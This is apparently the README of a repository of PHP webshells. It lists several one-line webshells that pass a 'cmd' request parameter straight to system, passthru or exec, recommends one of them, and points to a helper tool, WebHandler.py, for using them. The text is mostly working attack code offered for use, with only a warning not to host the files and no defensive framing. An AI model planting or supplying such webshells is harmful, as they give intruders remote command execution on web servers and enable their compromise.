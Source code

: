 php-webshells
=============

Common php webshells. Do not host the file(s) in your server!

++++++++++++++++++++++++++

Though I recommend one-liners like 

<?php echo passthru($_GET['cmd']); ?>

(Not a full fledged webshell, but works fine)

=================================================================

You can try WebHandler for one-liners.

WebHandler.py works for POST and GET requests:

    <?php system($_GET['cmd']); ?>
    <?php passthru($_REQUEST['cmd']); ?>
    <?php echo exec($_POST['cmd']); ?>


